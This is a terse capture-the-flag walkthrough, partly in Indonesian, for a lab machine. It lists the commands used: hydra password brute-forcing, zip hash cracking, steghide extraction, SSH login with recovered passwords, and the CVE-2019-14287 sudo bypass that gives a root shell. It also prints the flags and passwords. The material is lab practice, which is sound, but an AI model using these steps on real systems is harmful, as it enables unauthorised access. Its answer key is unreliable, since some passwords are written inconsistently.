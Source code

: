 # agent sudo

## Task 1 Author note
- deploy

## Task 2 Enumerate
- How many open ports? 3
- How you redirect yourself to a secret page? 
- What is the agent name? user-agent
  ```
  use burp suite and add user-agent: R
  ```
- What is the agent name? chris
  ```
  use burp suite and add user-agent a, lalu b, lalu c
  ```

## Task 3 Hash cracking and brute-force
- FTP password? cystal
  ```
  hydra -l chris -P rockyou.txt ftp://10.10.80.126

  user: chris
  pass: crystal
  ```
- Zip file password? alien
  ```
  exiftool cutie.png
  xxd cutie.png
  strings cutie.png
  binwalk cutie.png

  zip2john 8702.zip > hash.txt
  john hash.txt
  ```
- steg password? area51
  ```
  7z e 8702.zip
  cat Agent_R

  decode enkripsi

  area51
  ```
- Who is the other agent (in full name)? james
  ```
  steghide extract -sf cute-alien.jpg
  pass: area51

  cat message.txt

  from james
  pass hackerrules
  ```
- SSH password? hackerrules

## Task 4 Capture the user flag
- What is the user flag? b03d975e8c92a7c04146cfa7a5a313c7
  ```
  ssh james@10.10.80.126
  pass: hackerrules!

  cat user_flag.txt
  b03d975e8c92a7c04146cfa7a5a313c7
  ```
- What is the incident of the photo called? Roswell alien autopsy
  ```
  sudo scp james@10.10.80.126:Alien_autospy.jpg ~/

  find in goggle gambarnya
  dan nantinya akan muncul gambar terbalik

  Roswell alien autopsy
  ```

## Task 5 Privilege escalation
- CVE number for the escalation (Format: CVE-xxxx-xxxx)? CVE-2019–14287
  ```
  sudo -l
  (ALL, !root) /bin/bash

  u can search in google (ALL, !root) /bin/bash exploit
  ```
- What is the root flag?
  ```
  baca dokumentasi cv nya lalu liat di bagian
  sudo -u#-1 /bin/bash

  cat /root/root.txt
  ```